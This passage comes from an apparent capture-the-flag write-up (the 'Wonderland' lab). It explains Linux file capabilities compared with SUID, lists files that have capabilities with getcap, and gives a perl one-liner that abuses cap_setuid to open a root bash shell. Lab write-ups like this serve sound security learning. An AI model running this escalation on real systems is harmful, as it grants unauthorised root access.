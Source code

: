 The article goes into great detail on what capabilities are and how they differ from SUID. In essence, capabilities allow us to set very specific privileges to executable files, instead of SUID, which is binary in nature (either the file is privileged or not).

**Common Capabilities:**

![screenshot25](../assets/images/wonderland/screenshot25.png)

One capability that is especially important to us is the **CAP_SETUID** capability, as this allows for the changing of UID, essentially allowing for a non-privileged user to change their UID to root.

To check which files have capabilities enabled, we use:

```
getcap -r / 2>/dev/null
```

*(`-r` option allows for recursive search)*

![screenshot26](../assets/images/wonderland/screenshot26.png)

From the results, we can see that `perl` has the `cap_setuid+ep` capability set! This means that we can exploit it to spawn a shell with root privileges.

All we have to do is run:

```
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

![screenshot27](../assets/images/wonderland/screenshot27.png)
